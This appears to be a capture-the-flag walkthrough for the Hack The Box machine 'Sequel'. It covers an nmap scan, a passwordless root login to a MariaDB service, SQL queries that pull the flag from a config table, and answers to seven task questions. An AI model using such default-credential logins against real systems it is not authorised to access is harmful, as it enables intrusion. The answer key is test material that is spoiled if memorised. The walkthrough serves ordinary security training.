




# Sequel      


## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```


3306/tcp is open. Service is `MySQL`.

### MySQL

Type:

```
mysql -h {target ip} -u root
```
The `-h` flag stands for "host". It is used to specify the IP address or hostname of the MySQL server you want to connect to.

The `-u` flag stands for "user". It is used to specify the username you want to log in as to the MySQL server. 

In this case, we tried with `root` and it worked.



Because it is `MySQL`, having knowledge of `SQL` allows you to move freely around the database. 

If you need more commands, just Google it or use an AI tool. However, to solve this challenge, you'll only need to follow my instructions.

### Get the flag

Since in, type:

```
SHOW DATABASES;
```

```
USE htb;
```



```
SHOW TABLES;
```



```
SELECT * FROM config;
```



Flag is there.

### Paste the flag


## Answers

### Task-1: During our scan, which port do we find serving MySQL?

3306

### Task-2: What community-developed MySQL version is the target running?

MariaDB

### Task-3: When using the MySQL command line client, what switch do we need to use in order to specify a login username?

-u

### Task-4: Which username allows us to log into this MariaDB instance without providing a password?

root

### Task-5: In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?

`*`

### Task-6: In SQL, what symbol do we need to end each query with?

;

### Task-7: There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?

htb

### Submit root flag

Congrats.